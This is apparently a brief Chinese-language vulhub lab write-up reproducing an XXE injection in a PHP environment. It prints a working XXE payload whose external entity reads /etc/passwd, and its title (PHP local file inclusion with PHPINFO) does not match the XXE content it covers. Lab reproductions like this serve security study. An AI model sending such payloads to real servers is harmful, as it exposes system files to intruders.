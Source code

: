 # 带有PHPINFO的PHP本地文件包含RCE

###### by ADummy

### 0x00利用路线

​			构造XXE payload--->POST发送--->有回显（也有blind xxe 参考资料）

### 0x01漏洞介绍			

​			PHP环境 XML外部实体注入漏洞（XXE）

### 0x02漏洞复现

#### 		payload

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
<name>&xxe;</name>
</root>
```

![PHP_XML外部实体注入_XXE_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/PHP_XML外部实体注入_XXE_1.png)

### 0x03参考资料

https://thief.one/2017/06/20/1/

https://www.cnblogs.com/leixiao-/p/10244927.html

https://blog.csdn.net/m0_46580995/article/details/107450111

